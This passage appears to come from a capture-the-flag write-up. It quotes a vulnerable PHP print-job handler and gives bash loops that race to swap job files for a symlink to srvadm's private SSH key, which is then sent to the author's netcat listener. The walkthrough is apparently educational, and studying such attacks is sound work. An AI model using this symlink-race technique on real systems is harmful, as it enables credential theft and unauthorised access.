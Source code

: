 ```text
$title=$_POST["title"];
                $file = date("Y-m-d_H:i:s");
                file_put_contents("/var/www/jobs/".$file,$_POST["desc"]);
                chmod("/var/www/printer/jobs/".$file,"0777");
                $stmt=$conn->prepare("select ip,port from jobs");
                $stmt->execute();
                $result=$stmt->get_result();
```

I looked back at the code of the jobs page to see exactly what it was doing. It looked like it was creating a file with a name derived from the php `date("Y-m-d_H:i:s")` funtion, then writing to the file the contents of the 'Bill Details' field from the 'Print Jobs' page. After that it sends the file to the IP and port specified in the 'Bill & Receipt Printer' field.

So...now I had to try to figure how to trick this into printing the SSH key of `srvadm`. The only way I could think to do it was to create a link to the key file, replacing the file the print job expected \(we are able to do this since job.php sets the file permissions to 0777\) before it sends it to the "printer". I would have to be ...quick. [https://stackoverflow.com/questions/12198844/replace-a-whole-file-with-another-file-in-bash](https://stackoverflow.com/questions/12198844/replace-a-whole-file-with-another-file-in-bash)

```text
#!/bin/bash

while : 
do
        for job in $(ls -1 /var/www/jobs)
        do
                cat /dev/shm/printer > /var/www/jobs/$job;
        done
done
```

So that didn't work...probably because I don't have read permissions of the file. This does tell me, however, that the file exists and that I am on the right track!

```text
#!/bin/bash

while : 
do
        for job in $(ls -1 /var/www/jobs)
        do
                echo "The filename is $job"
                filename=$job
                rm -f /var/www/jobs/$job;
                ln -sf /home/srvadm/.ssh/id_rsa /var/www/jobs/$filename;
        done
done
```

This time, instead of trying to put the contents of the SSH key in the print file, I swapped the print file with a symlink to the key. This way when the file is sent to my waiting "printer" \(nc listener\), it would send the SSH key using the permissions of `srvadm`.
